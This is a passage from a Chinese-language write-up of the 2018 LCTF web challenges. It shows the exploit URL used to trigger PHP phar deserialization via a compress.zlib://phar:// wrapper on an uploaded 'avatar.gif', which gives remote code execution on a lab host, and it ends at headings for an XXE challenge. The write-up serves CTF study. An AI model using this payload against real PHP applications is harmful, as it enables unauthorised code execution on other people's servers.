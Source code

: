 然后改名为`avatar.gif`让题目下载就可以了

![](2018-lctf-web-学习篇\6.png)

下载到之后，就可以利用phar进行反序列化

```
http://192.168.85.128/show_me_shell/html/LCTF.php?m=check&c=compress.zlib://phar:///var/www/html/show_me_shell/data/8296a7decb7606bc224d78d13afaf8df/avatar.gif/test.txt&a=phpinfo(); 
```

就可以rce了，第一题也就到这结束了

![](2018-lctf-web-学习篇\7.png)

# sh31l 4ga1n

## XXE
